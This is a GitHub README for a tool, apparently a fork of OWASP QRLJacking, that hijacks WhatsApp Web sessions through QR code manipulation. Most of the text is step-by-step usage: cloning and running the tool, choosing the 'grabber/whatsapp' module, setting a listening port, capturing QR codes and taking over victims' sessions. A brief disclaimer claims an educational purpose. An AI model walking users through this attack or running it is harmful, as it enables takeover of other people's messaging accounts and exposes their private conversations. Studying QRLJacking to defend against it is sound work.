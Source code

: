 # qrlJacker_WhatsappHacking

qrlJacker_WhatsappHacking is a tool based on [OWASP QRLJacking](https://github.com/OWASP/QRLJacking/tree/master/QRLJacker) that allows session hijacking of WhatsApp Web using QR code manipulation.

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/alexuuhat/qrlJacker_WhatsappHacking.git
   cd qrlJacker_WhatsappHacking
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. Run the tool:
   ```bash
   python QrlJacker.py
   ```

## Usage

Once inside the QrlJacker console, you can use the following commands:

### Basic Commands
```
QrlJacker> help       # Show available commands
QrlJacker> banner     # Display the banner
QrlJacker> list       # List available modules
QrlJacker> info grabber/whatsapp  # Get information about the WhatsApp module
```

### Exploiting WhatsApp Web
```
QrlJacker> use grabber/whatsapp  # Select the WhatsApp grabber module
QrlJacker> options               # Show module options
QrlJacker> set port 1337         # Set the port for the server
QrlJacker> options               # Verify the configuration
QrlJacker> run                   # Start capturing QR codes
```

### Managing Sessions
```
[+] Got session on Whatsapp module
> sessions        # List active sessions
> sessions -h     # Show help for session management
> sessions -i 1   # Interact with session ID 1
```

### Managing Jobs
```
> jobs            # Show running jobs
> jobs -h         # Show help for job management
> jobs -K         # Kill all running jobs
```

## Documentation

For full documentation and additional details, refer to the original [OWASP QRLJacking project](https://github.com/OWASP/QRLJacking/tree/master/QRLJacker).

## Disclaimer

This tool is intended for educational and research purposes only. Unauthorized access to accounts or services without permission is illegal and unethical. Use responsibly.

---

**Author:** [alexuuhat](https://github.com/alexuuhat)